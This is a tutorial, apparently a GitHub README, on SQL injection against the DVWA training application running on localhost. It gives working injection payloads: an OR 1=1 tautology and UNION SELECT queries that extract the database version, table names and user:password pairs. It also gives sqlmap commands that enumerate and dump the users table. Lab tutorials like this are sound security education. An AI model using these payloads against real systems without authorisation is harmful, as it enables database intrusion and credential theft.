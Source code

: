 # **Exploiting SQL Injection on DVWA (Low Level) Manually & Using SQLmap**  

In this guide, we will perform **SQL Injection (SQLi) exploitation** on **Damn Vulnerable Web Application (DVWA)** with security set to **Low**.  

We will cover **both manual exploitation and automation using SQLmap**.

---

## **1. Setting Up DVWA**  
Before attacking, make sure **DVWA is running** on your system.

### **1.1 Start Services**  
If you're using **Kali Linux**, start Apache and MySQL:  
```bash
sudo systemctl start apache2
sudo systemctl start mysql
```

### **1.2 Log into DVWA**  
1. Open your browser and go to:  
   ```
   http://localhost/dvwa/
   ```
2. Use default credentials:  
   ```
   Username: admin  
   Password: password
   ```
3. Set **Security Level to Low**:  
   - Navigate to **DVWA Security**  
   - Change **Security Level** to **Low**  
   - Click **Submit**  

---

## **2. Manual SQL Injection Exploitation**
We'll manually test **SQL Injection on the User ID field**.

### **2.1 Identifying a Vulnerability**
1. Go to **SQL Injection page**:  
   ```
   http://localhost/dvwa/vulnerabilities/sqli/
   ```
2. Enter a **single quote (`'`)** in the input box and click **Submit**.  

   **Example Input:**  
   ```
   '
   ```
   If you see an error like:  
   ```
   You have an error in your SQL syntax
   ```
   ✅ **The application is vulnerable to SQL injection.**

---

### **2.2 Bypassing Authentication**  
Now, let's **bypass authentication** using SQL injection.  

1. Enter the following payload in the **User ID** field:  
   ```
   1' OR 1=1 --  
   ```
2. Click **Submit**.  

   **Explanation:**  
   - `1' OR 1=1 --` **always evaluates to TRUE**, returning all users.  
   - The `--` **comments out the rest of the SQL query**.  

---

### **2.3 Extracting Database Version**
Enter the following payload in **User ID**:  
```sql
1' UNION SELECT null, @@version --  
```
✅ This will **return the database version**.

---

### **2.4 Listing All Database Tables**
Use:  
```sql
1' UNION SELECT null, table_name FROM information_schema.tables WHERE table_schema=database() --  
```
✅ **Returns table names** in the current database.

---

### **2.5 Extracting User Credentials**
Use:  
```sql
1' UNION SELECT null, concat(user, ':', password) FROM users --  
```
✅ **Extracts usernames and passwords.**

---

## **3. Automating SQL Injection Using SQLmap**
Now, let's use **SQLmap** to automate the attack.

### **3.1 Capture Request Data**
1. Open **DVWA's SQL Injection page**.  
2. **Intercept the request** using **Burp Suite** or browser developer tools.  
3. Identify the vulnerable URL:  
   ```
   http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit
   ```

---

### **3.2 Enumerating Databases**
Run SQLmap:  
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=xxxxx; security=low" --dbs
```
✅ **Lists all databases**.

---

### **3.3 Extracting Tables**
Find tables in `dvwa`:  
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=xxxxx; security=low" -D dvwa --tables
```
✅ **Lists table names**.

---

### **3.4 Extracting Columns from `users` Table**
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=xxxxx; security=low" -D dvwa -T users --columns
```
✅ **Lists column names**.

---

### **3.5 Dumping Usernames & Passwords**
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=xxxxx; security=low" -D dvwa -T users --dump
```
✅ **Extracts all user credentials.**

---

## **4. Preventing SQL Injection**  
To **mitigate SQLi vulnerabilities**:  
✅ Use **Prepared Statements**  
✅ Sanitize user input  
✅ Apply **least privilege** to database users  
✅ Enable **Web Application Firewalls (WAF)**  
